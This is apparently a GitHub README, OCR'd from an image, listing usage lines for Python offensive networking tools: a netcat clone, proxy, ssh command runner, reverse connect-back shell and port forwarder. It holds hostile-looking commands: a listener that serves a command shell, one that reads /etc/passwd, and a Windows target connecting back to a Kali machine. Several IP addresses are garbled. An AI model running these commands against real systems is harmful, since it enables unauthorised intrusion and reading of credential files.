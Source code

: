 # Networking Tools

# Python networking tools to help out when dealing with an environment where there are no tools installed.
# Here you will find several tools written in Python to help your asessment.

Tools:

#tcp_client.py
  
#Ecample Usage

./tcp_client.py 
  
#udp_client.py
  
#Example Usage

./udp_client.py

#netcat.py

#Example Usage

./netcat.py --help

python netcat.py -t 192.168.1.12 -p 4444 -l -c

python netcat.py -t 192.16.1.12 -p 4444 -l -e="cat /etc/passwd"

#proxy.py

#Example Usage

sudo python proxy.py 1902.168.1.12 21 ftp.sun.ca.za True

#Open a new Terminal an enter:

ftp 127.16.1.12:21

#ssh_cmd.py

#Example Usage

#First make sure to install 'paramiko'

pip install paramiko

pytho ssh_cmd.py

#ssh_rcmd.py

#Example Usage

#This script is modified to run commands on a remote Windows machine

#You'll need to ssh_server.py on your host

#ssh_server.py

#Example usage:

#Run the script on your host

python ssh_server.py

#Now run on the WIndows target host

python ssh_rcmd.py

#This will connact back to the server running on your Kali machine

#rforward.py

#Example usage

#SSh Tunneling Tool

#From the Windows machine launch the script to be the middle man to tunnel traffic from a web serveer to your Kali machine

python rforward.py 192.168.1.12 -p 8081 192.16.1.13:3000 --user=hacker
